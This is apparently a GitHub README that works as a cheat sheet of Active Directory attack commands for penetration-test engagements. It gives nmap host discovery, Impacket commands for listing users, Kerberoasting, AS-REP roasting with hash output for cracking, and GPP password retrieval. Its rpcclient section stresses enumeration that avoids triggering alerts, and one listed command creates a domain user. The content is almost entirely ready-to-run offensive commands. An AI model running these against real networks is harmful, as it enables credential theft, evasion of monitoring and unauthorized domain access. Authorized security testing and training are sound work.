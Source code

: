 # Ba51c_Activ3_Direct0ry_3numeration
In most engagements regarding Active Directory, credentials are king. This repo contains basic enumeration commands that will help gain more insight into the target network and its identities. 


# IP Discovery Commands
Once connected to the private/internal range of the target, these commands will assist in IP discovery as well as Services that run on the IP. 
- nmap -sn <IP/24>
- nmap -Pn <IP/24>


# Impacket to Rule them All
"What is Impacket used for?
Impacket is an open-source collection of modules written in Python for programmatically constructing and manipulating network protocols."
If credentials have been gained, they will assist with the following commands that can be run in the domain

*Enter details between the placeholders --> ()

## Getting AD Users
python3 GetADUsers.py -all '(domain)/(user):(password)' -dc-ip (IP)

## Kerberoasting 
python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request

## ASREP Roasting
python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt

## Get GPPPassword
python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1


# RPCCLient - Sneaky Enumeration Tactics 
The following tool aids in enumerating objects in a domain without triggering alerts and creating a lot of "noise". 

## RPCClient Authentication
rpcclient -U 'Testuser' 10.10.1.1 - (Password Prompt will appear after)

## RPCClient Commands
- List Users = enumdomusers
- List Groups = enumdomgroups
- Domain Info = querydominfo
- Enumerate all available shares = netshareenumall
- Create Domain User = createdomuser



